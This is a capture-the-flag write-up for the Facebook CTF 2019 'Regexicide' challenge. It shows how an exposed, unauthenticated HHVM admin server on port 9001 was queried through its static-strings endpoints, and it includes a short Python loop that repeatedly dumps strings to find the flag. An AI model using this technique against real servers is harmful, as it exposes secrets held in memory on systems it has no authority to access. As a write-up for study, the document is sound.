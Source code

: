 # Regexicide

1000 points - 3 Solves

```  
I finally figured out the passphrase to the EVIL club. It's pretty complicated
so I've decided to store it in my server in case I forget.  
I've protected it with a password though, so it's virtually impossible for
anyone else to get it. I sometimes accidentally enter my  
password multiple times, so I added a twist to my server to handle that case
too.  
For some reason my server gets bloated after a while - nothing frequent
deploys can't fix.  
http://34.212.86.199/

(This problem does not require any brute force or scanning. We will ban your
team if we detect brute force or scanning).  
```

## Solution:

For this problem we found that port 9001 was open. After looking at the
webpage we realize that this was HHVM with the [admin
server](https://hhvm.com/blog/521/the-adminserver) exposed and
unauthenticated.

Looking at the different options available to us on the admin page this
section seemed particularly promising:  
```  
/static-strings:  get number of static strings  
/static-strings-rds: ... that correspond to defined constants  
/dump-static-strings: dump static strings to /tmp/static_strings  
/random-static-strings: return randomly selected static strings  
  count         number of strings to return, default 1  
```

We can query `http://34.212.86.199:9001/static-strings` to retrieve the number
of static strings.

Then, we can query `http://34.212.86.199:9001/random-static-strings?count=num`
in order to retreive all static strings in the application.

The flag can be found with a quick search for `fb{`.

#### Bonus  
Additionally, we also wrote a dumper in parallel to continous dump strings
before we tried `count` parameter on GET request

```python  
import requests

f = open('solve.txt','w')  
for i in xrange(0,1000):  
       r = requests.get("http://34.212.86.199:9001/random-static-strings")  
       f.write(r.text.encode('utf-8').strip())  
```

```  
$ cat solve.txt | grep 'fb{'  
```  

Original writeup (https://github.com/utcoalition/Public-CTF-
Writeups/blob/master/fbctf-2019/regexicide/README.md).